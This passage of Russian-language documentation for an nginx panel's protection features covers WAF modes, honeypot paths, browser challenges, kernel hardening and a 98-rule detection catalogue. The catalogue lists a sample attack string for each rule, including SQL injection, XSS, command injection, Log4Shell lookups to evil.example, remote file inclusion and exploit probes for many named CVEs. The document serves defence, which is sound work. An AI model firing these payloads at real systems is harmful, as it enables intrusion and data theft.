перебрать остальные пути. Ловушки работают на сайтах, где они включены, даже без общей автоблокировки. Добавьте
`Disallow: /.nm-trap/` в robots.txt сайта: законные роботы туда не пойдут, а сканеры, читающие robots.txt в поисках
скрытого, попадутся.

## Защита на уровне сайта

Вкладка **«Защита от атак»** редактора сайта:



- **Защита форм входа от перебора** — отдельное ограничение частоты (по умолчанию 10 попыток в минуту с IP) для путей
  входа: WordPress, Joomla, Drupal, типовые `/login`, `/signin`, `/api/auth`. Превышение — ответ 429. Работает вместе
  с автоблокировкой за подбор пароля (401).
- **Защита от хотлинкинга** — запрет встраивать картинки, видео и файлы сайта на чужие страницы (по Referer).
  Запросы без Referer и со своих доменов разрешены; разрешённые чужие сайты задаются списком.
- **Удалять опасные заголовки запроса** — `Proxy` (httpoxy, CVE-2016-5385), `X-Original-URL` и `X-Rewrite-URL`
  (обход авторизации в IIS и Symfony), `X-Middleware-Subrequest` (обход middleware Next.js, CVE-2025-29927),
  `X-HTTP-Method-Override` не передаются бэкенду.
- **Проверять соответствие Host и SNI** — запрос по HTTPS-соединению, открытому для другого домена, получает 421
  (защита от domain fronting); браузеры повторяют такой запрос по новому соединению.
- **Доверенные IP** — без проверок защиты (офис, мониторинг, партнёры).

## Журнал атак

Каждый заблокированный, записанный или отправленный на проверку запрос: время, сайт, IP и страна, механизм и правило,
действие, метод и строка запроса, User-Agent, код ответа, номер запроса. Фильтры по сайту, механизму, действию, IP,
тексту и номеру запроса. Карточка события — блокировка IP и исключения для ложных срабатываний.



Во время флуда подробные записи ограничены («Записей журнала в минуту, не больше»), а счётчики на «Обзоре» считаются
полностью. Журнал хранится заданное число дней.

## Самопроверка

Панель отправляет в nginx на этом сервере по одному примеру каждого правила (SQL-инъекции, XSS, Log4Shell, обход
каталогов, сканеры, виртуальные патчи) и обычные запросы и сверяет итог с настройками: что должно блокироваться —
блокируется, что в режиме «запись» — попадает в журнал, обычные запросы проходят. Запросы самопроверки помечены и не
попадают в статистику, журнал атак (кроме фильтра «самопроверка») и автоблокировку.


На стенде самопроверка сайта с настройками по умолчанию: 77 атак из 77 заблокированы, атака в режиме «запись»
записана, ложных срабатываний на обычных запросах нет. Коды 400 и 405 считаются отражёнными: такие запросы отклоняет
сам nginx (путь выше корня после нормализации, метод TRACE).

## Оценка защищённости

Оценка сайта от 0 до 100 и класс A–F по 21 пункту с весами: HTTPS и HSTS, только TLS 1.2+, режимы фильтра запросов,
проверка браузера, ограничения частоты и соединений, защита входа, заголовки безопасности и CSP, скрытые файлы,
удаление опасных заголовков, Host/SNI, списки угроз, автоблокировка, ловушки, скрытие версии nginx, таймауты против
медленных атак, ограничение размера тела. У каждого невыполненного пункта — подсказка и ссылка на вкладку, где это
включается.


## Сеть и сервер

**Медленные атаки.** Рекомендуемые значения: `client_header_timeout 10s`, `client_body_timeout 20s`,
`send_timeout 20s`, `keepalive_timeout 30s`, `reset_timedout_connection on`, `server_tokens off`, буферы заголовков
`1k` и `4 16k`. Кнопка «Установить рекомендуемые» записывает их в «Настройки nginx».


**Ядро Linux.** Таблица параметров `sysctl` с текущими и рекомендуемыми значениями (SYN cookies, очереди соединений,
rp_filter, ICMP redirect, source route, RFC 1337, журнал «марсианских» пакетов). «Применить рекомендуемые» пишет
`/etc/sysctl.d/90-nginx-manager.conf` и выполняет `sysctl -p`. В контейнерах ядро часто недоступно для изменений —
панель покажет, какие параметры не применились. Вернуть значения по умолчанию: удалите файл и выполните
`sysctl --system`.

## Параметры

<!-- GEN:protection -->
<!-- Сгенерировано tools/gen_reference.py — не редактируйте вручную -->

### Фильтр запросов


<a id="f-protection-waf_enabled"></a>

#### Фильтр запросов (WAF) включён — `waf_enabled`

| Тип | По умолчанию | Диапазон / ед. | Директива nginx | Расширенный |
|---|---|---|---|---|
| переключатель (да/нет) | включено | — | — | нет |

Проверка каждого запроса по каталогу сигнатур атак на уровне nginx: строка запроса и заголовки. Режим каждой категории — на странице «Защита → Фильтр запросов».


<a id="f-protection-waf_level"></a>

#### Строгость — `waf_level`

| Тип | По умолчанию | Диапазон / ед. | Директива nginx | Расширенный |
|---|---|---|---|---|
| выбор из списка | `1` (1 — почти без ложных срабатываний) | — | — | нет |

Уровень 2 добавляет правила, которые чаще задевают необычные, но законные запросы: комментарии SQL, длинные hex-строки, пустой User-Agent, localhost в параметрах, панели администрирования БД.

Варианты:

- `1` — 1 — почти без ложных срабатываний
- `2` — 2 — строже (больше правил)

> **Рекомендация.** 1 для большинства сайтов; 2 — после недели в режиме записи без ложных срабатываний.


<a id="f-protection-waf_disabled_rules"></a>

#### Отключённые правила (на всех сайтах) — `waf_disabled_rules`

| Тип | По умолчанию | Диапазон / ед. | Директива nginx | Расширенный |
|---|---|---|---|---|
| список строк | пусто | — | — | нет |


<a id="f-protection-block_status"></a>

#### Ответ на заблокированный запрос — `block_status`

| Тип | По умолчанию | Диапазон / ед. | Директива nginx | Расширенный |
|---|---|---|---|---|
| выбор из списка | `403` (403 и страница «Доступ запрещён» с номером запроса) | — | — | нет |

Варианты:

- `403` — 403 и страница «Доступ запрещён» с номером запроса
- `444` — 444 — закрыть соединение без ответа

> **Рекомендация.** 403: посетитель при ложном срабатывании сообщит номер запроса.


<a id="f-protection-bypass_ips"></a>

#### Доверенные IP (без проверок на всех сайтах) — `bypass_ips`

| Тип | По умолчанию | Диапазон / ед. | Директива nginx | Расширенный |
|---|---|---|---|---|
| список, по одному значению на строку | пусто | — | — | нет |

**Пример:** `203.0.113.0/24`


### Проверка браузера


<a id="f-protection-challenge_difficulty"></a>

#### Сложность задачи (бит) — `challenge_difficulty`

| Тип | По умолчанию | Диапазон / ед. | Директива nginx | Расширенный |
|---|---|---|---|---|
| целое число | `16` | 8…24 | — | нет |

Число нулевых бит в начале хеша SHA-256. Каждый бит удваивает работу: 16 — около 65 тысяч попыток, 0,2–1,5 с на телефоне; 20 — в 16 раз дольше.

> **Рекомендация.** 16; при сильной атаке ботов с JavaScript — 18–20.


<a id="f-protection-challenge_ttl_hours"></a>

#### Пропуск действует (ч) — `challenge_ttl_hours`

| Тип | По умолчанию | Диапазон / ед. | Директива nginx | Расширенный |
|---|---|---|---|---|
| целое число | `24` | 1…720 | — | нет |


<a id="f-protection-challenge_bind_ip"></a>

#### Пропуск привязан к IP — `challenge_bind_ip`

| Тип | По умолчанию | Диапазон / ед. | Директива nginx | Расширенный |
|---|---|---|---|---|
| переключатель (да/нет) | включено | — | — | нет |

Решённую задачу нельзя переиспользовать с других адресов (бот-сеть не раздаст один пропуск всем узлам). Посетитель мобильной сети при смене IP пройдёт проверку заново.


<a id="f-protection-challenge_exempt_paths"></a>

#### Не проверять браузер на путях (все сайты) — `challenge_exempt_paths`

| Тип | По умолчанию | Диапазон / ед. | Директива nginx | Расширенный |
|---|---|---|---|---|
| список, по одному значению на строку | `/.well-known/`, `/robots.txt`, `/favicon.ico`, `/sitemap.xml` | — | — | нет |


<a id="f-protection-auto_attack"></a>

#### Автоматически включать «Под атакой» — `auto_attack`

| Тип | По умолчанию | Диапазон / ед. | Директива nginx | Расширенный |
|---|---|---|---|---|
| переключатель (да/нет) | включено | — | — | нет |

Панель каждую минуту сравнивает нагрузку на сайт с обычной. При резком росте запросов включает проверку браузера на сайтах с режимом «В режиме «Под атакой»» и выключает её, когда нагрузка спадёт.


<a id="f-protection-auto_rps"></a>

#### Порог: запросов в секунду — `auto_rps`

| Тип | По умолчанию | Диапазон / ед. | Директива nginx | Расширенный |
|---|---|---|---|---|
| целое число | `200` | 10…1000000 | — | нет |

Средняя нагрузка сайта за минуту.

*Показывается, когда `auto_attack` = вкл.*


<a id="f-protection-auto_factor"></a>

#### и во сколько раз больше обычного — `auto_factor`

| Тип | По умолчанию | Диапазон / ед. | Директива nginx | Расширенный |
|---|---|---|---|---|
| число | `8.0` | 2…1000 | — | нет |

Обычная — средняя за ту же минуту прошлых суток.

*Показывается, когда `auto_attack` = вкл.*


<a id="f-protection-auto_minutes"></a>

#### Держать режим не меньше (мин) — `auto_minutes`

| Тип | По умолчанию | Диапазон / ед. | Директива nginx | Расширенный |
|---|---|---|---|---|
| целое число | `30` | 5…1440 | — | нет |

*Показывается, когда `auto_attack` = вкл.*


### Автоматика и ловушки


<a id="f-protection-autoban_waf"></a>

#### Блокировать IP после N срабатываний фильтра — `autoban_waf`

| Тип | По умолчанию | Диапазон / ед. | Директива nginx | Расширенный |
|---|---|---|---|---|
| целое число | `5` | 0…10000 | — | нет |

За окно автоблокировки (раздел «Блокировки IP»); 0 — не блокировать.

> **Рекомендация.** 3–10. Нужно включить автоблокировку в «Настройки панели → Блокировки IP».


<a id="f-protection-honeypot_paths"></a>

#### Пути-ловушки — `honeypot_paths`

| Тип | По умолчанию | Диапазон / ед. | Директива nginx | Расширенный |
|---|---|---|---|---|
| список, по одному значению на строку | `/.nm-trap/`, `/wp-config.php.bak`, `/.git/config`, `/.aws/credentials`, `/phpmyadmin/setup/`, `/admin/.env`, `/backup.sql`, `/.vscode/sftp.json` | — | — | нет |

Первое же обращение — блокировка IP (на сайтах с включёнными ловушками). Добавьте «Disallow: /.nm-trap/» в robots.txt сайта: законные роботы туда не пойдут, а сканеры попадутся.


<a id="f-protection-honeypot_minutes"></a>

#### Блокировать попавших в ловушку (мин) — `honeypot_minutes`

| Тип | По умолчанию | Диапазон / ед. | Директива nginx | Расширенный |
|---|---|---|---|---|
| целое число | `1440` | 1…525600 | — | нет |


### Списки угроз


<a id="f-protection-threat_update_hours"></a>

#### Обновлять списки каждые (ч) — `threat_update_hours`

| Тип | По умолчанию | Диапазон / ед. | Директива nginx | Расширенный |
|---|---|---|---|---|
| целое число | `6` | 1…168 | — | нет |


### Журнал атак


<a id="f-protection-log_days"></a>

#### Хранить журнал атак (дней) — `log_days`

| Тип | По умолчанию | Диапазон / ед. | Директива nginx | Расширенный |
|---|---|---|---|---|
| целое число | `30` | 1…365 | — | нет |


<a id="f-protection-log_per_minute"></a>

#### Записей журнала в минуту, не больше — `log_per_minute`

| Тип | По умолчанию | Диапазон / ед. | Директива nginx | Расширенный |
|---|---|---|---|---|
| целое число | `2000` | 100…100000 | — | нет |

Во время флуда счётчики считаются полностью, а подробные записи — до этого предела.

<!-- /GEN:protection -->

## Ограничения

- **Тело запроса не проверяется.** nginx без сторонних модулей не видит содержимое POST-форм и JSON — атаки через
  тело ловятся только по признакам в URL и заголовках. Для полной проверки тела нужен ModSecurity v3 или Coraza с
  OWASP CRS (пакеты `libnginx-mod-http-modsecurity` и `modsecurity-crs` в Debian/Ubuntu) — их можно подключить
  «Своими директивами» сайта; фильтр панели при этом остаётся первой, быстрой линией.
- **Отпечатки TLS (JA3/JA4)** и поведенческий анализ ботов в стандартном nginx недоступны.
- **Объёмный DDoS** (насыщение канала) отражается только до сервера — у провайдера или в сети очистки трафика. Панель
  отражает L7-флуд (проверка браузера, ограничение частоты, автоблокировка) и помогает ядру против SYN-флуда.
- **Проверка браузера** требует модуля `secure_link` в nginx (есть в пакетах Debian, Ubuntu, RHEL и nginx.org). Без
  него остальные механизмы работают, а раздел предупреждает об этом.

## Каталог правил

<!-- GEN:waf_rules -->
<!-- Сгенерировано tools/gen_reference.py — не редактируйте вручную -->
Всего правил: **98**.

#### SQL-инъекции

| Правило | Ур. | Поля | Пример атаки | CVE |
|---|---|---|---|---|
| `sqli-union` — UNION SELECT | 1 | строка запроса (путь и параметры) | `/item?id=1+UNION+ALL+SELECT+1,2,3--` | — |
| `sqli-schema` — Служебные таблицы СУБД | 1 | строка запроса (путь и параметры) | `/?id=1 and 1=(select count(*) from information_schema.tables)` | — |
| `sqli-time` — Слепая инъекция по времени | 1 | строка запроса (путь и параметры) | `/?id=1%27%20AND%20SLEEP(5)--` | — |
| `sqli-bool` — Логическое условие после кавычки | 1 | строка запроса (путь и параметры) | `/login?user=admin%27%20OR%20%271%27=%271` | — |
| `sqli-stacked` — Вторая команда после ; | 1 | строка запроса (путь и параметры) | `/?id=1;DROP TABLE users` | — |
| `sqli-funcs` — Функции извлечения данных | 1 | строка запроса (путь и параметры) | `/?id=extractvalue(1,concat(0x7e,version()))` | — |
| `sqli-comment` — Кавычка и комментарий SQL | 2 | строка запроса (путь и параметры) | `/?user=admin'--` | — |
| `sqli-hex` — Длинная шестнадцатеричная строка | 2 | строка запроса (путь и параметры) | `/?id=0x73656c65637420757365726e616d65` | — |

#### Межсайтовый скриптинг (XSS)

| Правило | Ур. | Поля | Пример атаки | CVE |
|---|---|---|---|---|
| `xss-script` — Тег script | 1 | строка запроса (путь и параметры), Referer | `/search?q=<script>alert(1)</script>` | — |
| `xss-event` — Обработчик события в теге | 1 | строка запроса (путь и параметры), Referer | `/?q=` | — |
| `xss-proto` — Опасная схема в ссылке | 1 | строка запроса (путь и параметры) | `/?url=javascript:alert(1)` | — |
| `xss-tags` — Опасные теги | 1 | строка запроса (путь и параметры), Referer | `/?q=<iframe src=//evil>` | — |
| `xss-dom` — Доступ к cookie и вызовы alert/prompt | 1 | строка запроса (путь и параметры) | `/?q=document.cookie` | — |
| `xss-tags2` — Теги meta, link, form, math, style | 2 | строка запроса (путь и параметры) | `/?q=<meta http-equiv=refresh>` | — |
| `xss-css` — CSS-выражения | 2 | строка запроса (путь и параметры) | `/?s=x:expression(alert(1))` | — |

#### Обход каталогов и чтение файлов (LFI)

| Правило | Ур. | Поля | Пример атаки | CVE |
|---|---|---|---|---|
| `trav-dotdot` — ../ в любой кодировке | 1 | строка запроса (путь и параметры) | `/download?file=../../etc/passwd` | — |
| `trav-files` — Системные файлы | 1 | строка запроса (путь и параметры) | `/?page=/etc/passwd` | — |

#### Подключение удалённых файлов (RFI) и обёртки PHP

| Правило | Ур. | Поля | Пример атаки | CVE |
|---|---|---|---|---|
| `rfi-url` — Чужой URL, оканчивающийся на ? | 1 | строка запроса (путь и параметры) | `/index.php?page=http://evil.example/shell.txt?` | — |
| `rfi-wrappers` — Обёртки PHP и подобные схемы | 1 | строка запроса (путь и параметры) | `/?page=php://filter/convert.base64-encode/resource=index.php` | — |

#### Внедрение команд ОС (RCE)

| Правило | Ур. | Поля | Пример атаки | CVE |
|---|---|---|---|---|
| `rce-chain` — Команда после ; | && | 1 | строка запроса (путь и параметры) | `/?ip=127.0.0.1;cat /etc/passwd` | — |
| `rce-subst` — Подстановка команды $(…) и `…` | 1 | строка запроса (путь и параметры) | `/?q=$(id)` | — |
| `rce-paths` — Интерпретаторы и /dev/tcp | 1 | строка запроса (путь и параметры) | `/?cmd=/bin/bash%20-i` | — |
| `rce-shellshock` — Shellshock в заголовках (CVE-2014-6271) | 1 | User-Agent, Referer, Cookie | `() { :; }; /bin/bash -c 'id'` | CVE-2014-6271 |

#### Внедрение PHP-кода

| Правило | Ур. | Поля | Пример атаки | CVE |
|---|---|---|---|---|
| `php-tag` — Тег <?php | 1 | строка запроса (путь и параметры), User-Agent, Referer, Cookie | `/?x=<?php system('id'); ?>` | — |
| `php-funcs` — Опасные функции PHP | 1 | строка запроса (путь и параметры) | `/?code=system('ls')` | — |
| `php-ini` — Изменение настроек PHP через параметры | 1 | строка запроса (путь и параметры) | `/index.php?-d+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input` | — |
| `php-superglobals` — Суперглобальные массивы в параметрах | 2 | строка запроса (путь и параметры) | `/?GLOBALS[x]=1` | — |

#### Java: JNDI (Log4Shell), OGNL, EL, десериализация

| Правило | Ур. | Поля | Пример атаки | CVE |
|---|---|---|---|---|
| `java-jndi` — JNDI-подстановка (Log4Shell) | 1 | строка запроса (путь и параметры), User-Agent, Referer, Cookie, X-Forwarded-For, X-Api-Version | `${jndi:ldap://evil.example/a}` | CVE-2021-44228 |
| `java-ognl` — Выражения OGNL (Struts, Confluence) | 1 | строка запроса (путь и параметры), Content-Type, User-Agent, Referer, Cookie | `/${(#a=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id'))` | CVE-2017-5638, CVE-2022-26134 |
| `java-el` — Выражения Spring EL и Java-рефлексия | 1 | строка запроса (путь и параметры), User-Agent, Referer, Cookie | `/?x=${T(java.lang.Runtime).getRuntime().exec('id')}` | — |
| `java-spring4shell` — Spring4Shell (CVE-2022-22965) | 1 | строка запроса (путь и параметры) | `/?class.module.classLoader.resources.context.parent.pipeline.first.pattern=x` | CVE-2022-22965 |
| `java-text4shell` — Text4Shell (CVE-2022-42889) | 1 | строка запроса (путь и параметры), User-Agent, Referer, Cookie | `/?q=${script:javascript:java.lang.Runtime.getRuntime().exec('id')}` | CVE-2022-42889 |
| `java-deser` — Сериализованный объект Java | 1 | строка запроса (путь и параметры), Cookie | `/?data=rO0ABXNyABFqYXZhLnV0aWwuSGFzaE1hcA` | — |

#### Подделка запросов сервера (SSRF)

| Правило | Ур. | Поля | Пример атаки | CVE |
|---|---|---|---|---|
| `ssrf-metadata` — Адреса метаданных облаков | 1 | строка запроса (путь и параметры) | `/fetch?url=http://169.254.169.254/latest/meta-data/` | — |
| `ssrf-schemes` — Схемы gopher, dict, tftp, ldap | 1 | строка запроса (путь и параметры) | `/?url=gopher://127.0.0.1:6379/_FLUSHALL` | — |
| `ssrf-local` — localhost и внутренние адреса в параметрах | 2 | строка запроса (путь и параметры) | `/proxy?url=http://127.0.0.1:8080/admin` | — |

#### NoSQL-инъекции

| Правило | Ур. | Поля | Пример атаки | CVE |
|---|---|---|---|---|
| `nosqli-ops` — Операторы MongoDB | 1 | строка запроса (путь и параметры) | `/login?user=admin&password[$ne]=x` | — |

#### Внедрение заголовков (CRLF)

| Правило | Ур. | Поля | Пример атаки | CVE |
|---|---|---|---|---|
| `crlf-split` — Перевод строки в URL | 1 | строка запроса (путь и параметры) | `/redirect?url=/%0d%0aSet-Cookie:%20admin=1` | — |

#### Загрязнение прототипа (JavaScript)

| Правило | Ур. | Поля | Пример атаки | CVE |
|---|---|---|---|---|
| `proto-pollution` — __proto__ и constructor.prototype | 1 | строка запроса (путь и параметры) | `/?__proto__[admin]=1` | — |

#### Внедрение в шаблоны (SSTI)

| Правило | Ур. | Поля | Пример атаки | CVE |
|---|---|---|---|---|
| `ssti-python` — Обход объектов Python (Jinja2, Mako) | 1 | строка запроса (путь и параметры) | `/?name={{''.__class__.__mro__[1].__subclasses__()}}` | — |
| `ssti-math` — Арифметика в фигурных скобках {{7*7}} | 1 | строка запроса (путь и параметры) | `/?name={{7*7}}` | — |
| `ssti-other` — ${7*7}, #{7*7}, <%= %> | 2 | строка запроса (путь и параметры) | `/?q=${7*7}` | — |

#### XXE, LDAP- и XPath-инъекции

| Правило | Ур. | Поля | Пример атаки | CVE |
|---|---|---|---|---|
| `xxe-entity` — Сущности XML | 1 | строка запроса (путь и параметры), Content-Type | `/?xml=<!DOCTYPE x [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>` | — |
| `ldap-inj` — LDAP-инъекция | 2 | строка запроса (путь и параметры) | `/?user=*)(\|(uid=*))` | — |
| `xpath-inj` — XPath-инъекция | 2 | строка запроса (путь и параметры) | `/?q=x' or count(/*)=1 or 'a'='b` | — |

#### Сканеры уязвимостей

| Правило | Ур. | Поля | Пример атаки | CVE |
|---|---|---|---|---|
| `scan-ua` — Сканер уязвимостей по User-Agent | 1 | User-Agent | `sqlmap/1.7.2#stable (https://sqlmap.org)` | — |
| `scan-probe` — Характерные запросы сканеров | 1 | строка запроса (путь и параметры), User-Agent, Referer, Cookie, X-Forwarded-For | `/nice%20ports%2C/Tri%6Eity.txt%2ebak` | — |
| `scan-noua` — Пустой User-Agent | 2 | User-Agent | `` | — |
| `scan-research` — Исследовательские сканеры интернета | 2 | User-Agent | `Mozilla/5.0 (compatible; CensysInspect/1.1; +https://about.censys.io/)` | — |

#### Служебные и секретные файлы

| Правило | Ур. | Поля | Пример атаки | CVE |
|---|---|---|---|---|
| `files-vcs` — Системы контроля версий | 1 | строка запроса (путь и параметры) | `/.git/config` | — |
| `files-env` — Файлы окружения, ключи и история команд | 1 | строка запроса (путь и параметры) | `/.env` | — |
| `files-keys` — Закрытые ключи и учётные данные | 1 | строка запроса (путь и параметры) | `/id_rsa` | — |
| `files-backup` — Резервные копии и дампы | 1 | строка запроса (путь и параметры) | `/wp-config.php.bak` | — |
| `files-config` — Файлы конфигурации приложений | 1 | строка запроса (путь и параметры) | `/web.config` | — |
| `files-debug` — Отладочные и служебные страницы | 1 | строка запроса (путь и параметры) | `/phpinfo.php` | — |
| `files-admin` — Панели администрирования БД и actuator | 2 | строка запроса (путь и параметры) | `/phpmyadmin/index.php` | — |

#### Веб-шеллы и бэкдоры

| Правило | Ур. | Поля | Пример атаки | CVE |
|---|---|---|---|---|
| `shell-names` — Известные веб-шеллы | 1 | строка запроса (путь и параметры) | `/wp-content/uploads/wso.php` | — |
| `shell-params` — Передача команд скрипту | 1 | строка запроса (путь и параметры) | `/images/x.php?cmd=whoami` | — |

#### Виртуальные патчи (известные CVE)

| Правило | Ур. | Поля | Пример атаки | CVE |
|---|---|---|---|---|
| `cve-apache-traversal` — Apache: обход каталогов | 1 | строка запроса (путь и параметры) | `/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh` | CVE-2021-41773, CVE-2021-42013 |
| `cve-confluence` — Confluence: OGNL в URL и настройка | 1 | строка запроса (путь и параметры) | `/%24%7B%28%23a%3D%40java.lang.Runtime%40getRuntime%28%29%29%7D/` | CVE-2022-26134, CVE-2023-22515, CVE-2021-26084 |
| `cve-citrix` — Citrix ADC / NetScaler: обход каталогов | 1 | строка запроса (путь и параметры) | `/vpn/../vpns/cfg/smb.conf` | CVE-2019-19781 |
| `cve-semicolon` — Обход через ..; (F5, Tomcat, Spring) | 1 | строка запроса (путь и параметры) | `/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp` | CVE-2020-5902 |
| `cve-f5-icontrol` — F5 iControl REST | 1 | строка запроса (путь и параметры) | `/mgmt/tm/util/bash` | CVE-2022-1388 |
| `cve-fortinet` — Fortinet: чтение файлов SSL VPN | 1 | строка запроса (путь и параметры) | `/remote/fgt_lang?lang=/../../../..//////////dev/cmdb/sslvpn_websession` | CVE-2018-13379 |
| `cve-proxyshell` — Exchange ProxyShell / ProxyNotShell | 1 | строка запроса (путь и параметры) | `/autodiscover/autodiscover.json?@evil.com/owa/?&Email=autodiscover/autodiscover.json%3F@ev` | CVE-2021-34473, CVE-2022-41040 |
| `cve-php-cgi` — PHP-CGI: внедрение аргументов | 1 | строка запроса (путь и параметры) | `/index.php?%ADd+allow_url_include%3d1+%ADd+auto_prepend_file%3dphp://input` | CVE-2024-4577, CVE-2012-1823 |
| `cve-phpunit` — PHPUnit eval-stdin.php | 1 | строка запроса (путь и параметры) | `/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php` | CVE-2017-9841 |
| `cve-drupal` — Drupalgeddon2 | 1 | строка запроса (путь и параметры) | `/user/register?element_parents=account/mail/%23value&ajax_form=1` | CVE-2018-7600 |
| `cve-thinkphp` — ThinkPHP: вызов функций | 1 | строка запроса (путь и параметры) | `/index.php?s=/Index/\think\app/invokefunction&function=call_user_func_array` | CVE-2018-20062 |
| `cve-gpon` — Роутеры GPON | 1 | строка запроса (путь и параметры) | `/GponForm/diag_Form?images/` | CVE-2018-10561 |
| `cve-joomla` — Joomla: раскрытие конфигурации | 1 | строка запроса (путь и параметры) | `/api/index.php/v1/config/application?public=true` | CVE-2023-23752 |
| `cve-moveit` — MOVEit Transfer | 1 | строка запроса (путь и параметры) | `/moveitisapi/moveitisapi.dll?action=m2` | CVE-2023-34362 |
| `cve-ivanti` — Ivanti Connect Secure и EPMM | 1 | строка запроса (путь и параметры) | `/api/v1/totp/user-backup-code/../../license/keys-status/%3bid` | CVE-2023-46805, CVE-2024-21887, CVE-2023-35078 |
| `cve-screenconnect` — ConnectWise ScreenConnect | 1 | строка запроса (путь и параметры) | `/SetupWizard.aspx/abc` | CVE-2024-1709 |
| `cve-panos` — Palo Alto GlobalProtect: путь в cookie | 1 | Cookie | `SESSID=/../../../opt/panlogs/tmp/device_telemetry/minute/x` | CVE-2024-3400 |
| `cve-checkpoint` — Check Point: чтение файлов | 1 | строка запроса (путь и параметры) | `/clients/MyCRL` | CVE-2024-24919 |
| `cve-nextjs` — Next.js: обход middleware Заголовок X-Middleware-Subrequest от клиента; дополнительно его вырезает «Удалять опасные заголовки» | 1 | X-Middleware-Subrequest | `middleware:middleware:middleware:middleware:middleware` | CVE-2025-29927 |
| `cve-teamcity` — JetBrains TeamCity | 1 | строка запроса (путь и параметры) | `/hax?jsp=/app/rest/users;.jsp` | CVE-2024-27198 |
| `cve-tomcat-put` — Tomcat: загрузка JSP через PUT | 1 | строка запроса (путь и параметры) | `/shell.jsp/` | CVE-2017-12615 |
| `cve-vcenter` — VMware vCenter | 1 | строка запроса (путь и параметры) | `/ui/vropspluginui/rest/services/uploadova` | CVE-2021-21972, CVE-2021-21985 |
| `cve-spring-gateway` — Spring Cloud Gateway | 1 | строка запроса (путь и параметры) | `/actuator/gateway/routes/hacktest` | CVE-2022-22947 |
| `cve-papercut` — PaperCut | 1 | строка запроса (путь и параметры) | `/app?service=page/SetupCompleted` | CVE-2023-27350 |
| `cve-sap` — SAP NetWeaver Visual Composer | 1 | строка запроса (путь и параметры) | `/developmentserver/metadatauploader?CONTENTTYPE=MODEL` | CVE-2025-31324 |
| `cve-sharepoint` — SharePoint ToolShell | 1 | строка запроса (путь и параметры) | `/_layouts/15/ToolPane.aspx?DisplayMode=Edit&a=/ToolPane.aspx` | CVE-2025-53770 |
| `cve-crushftp` — CrushFTP: шаблоны сервера | 1 | строка запроса (путь и параметры) | `/WebInterface/function/?command=zip&path={working_dir}` | CVE-2024-4040 |
| `cve-struts-ctype` — Struts2 Jakarta (Content-Type) | 1 | Content-Type | `%{(#_='multipart/form-data').(#cmd='id')}` | CVE-2017-5638 |

#### Нарушения протокола HTTP

| Правило | Ур. | Поля | Пример атаки | CVE |
|---|---|---|---|---|
| `proto-method` — Нестандартный метод WebDAV и нестандартные API потребуют исключения для сайта | 1 | метод запроса | `TRACE` | — |
| `proto-null` — Нулевой байт | 1 | строка запроса (путь и параметры) | `/index.php?file=../config.php%00.jpg` | — |
| `proto-overlong` — «Длинная» UTF-8 и %u-кодировка | 1 | строка запроса (путь и параметры) | `/%c0%ae%c0%ae/etc/passwd` | — |
| `proto-double-enc` — Двойная кодировка служебных символов | 1 | строка запроса (путь и параметры) | `/%252e%252e%252fetc%252fpasswd` | — |
| `proto-te10` — Transfer-Encoding в HTTP/1.0 | 1 | протокол и Transfer-Encoding | `HTTP/1.0\|chunked` | — |
| `proto-te-obf` — Нестандартный Transfer-Encoding (контрабанда запросов) | 1 | протокол и Transfer-Encoding | `HTTP/1.1\|chunked, identity` | — |
| `proto-method-override` — Подмена метода заголовком | 2 | X-HTTP-Method-Override | `DELETE` | — |
| `proto-long-uri` — Очень длинный URL (больше 4000 символов) | 2 | строка запроса (путь и параметры) | `/aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa` | — |

#### Открытые перенаправления

| Правило | Ур. | Поля | Пример атаки | CVE |
|---|---|---|---|---|
| `redirect-param` — Ссылка на другой сайт в параметре перенаправления | 1 | строка запроса (путь и параметры) | `/login?next=//evil.example` | — |

#### Боты ИИ-компаний

| Правило | Ур. | Поля | Пример атаки | CVE |
|---|---|---|---|---|
| `bots-ai` — Боты ИИ | 1 | User-Agent | `Mozilla/5.0 AppleWebKit/537.36 (KHTML, like Gecko; compatible; GPTBot/1.2; +https://openai` | — |

#### SEO-боты и сборщики ссылок

| Правило | Ур. | Поля | Пример атаки | CVE |
|---|---|---|---|---|
| `bots-seo` — SEO-боты | 1 | User-Agent | `Mozilla/5.0 (compatible; AhrefsBot/7.0; +http://ahrefs.com/robot/)` | — |

#### HTTP-библиотеки и автоматизация

| Правило | Ур. | Поля | Пример атаки | CVE |
|---|---|---|---|---|
| `bots-libs` — HTTP-библиотеки и автоматизация | 1 | User-Agent | `python-requests/2.31.0` | — |
<!-- /GEN:waf_rules -->
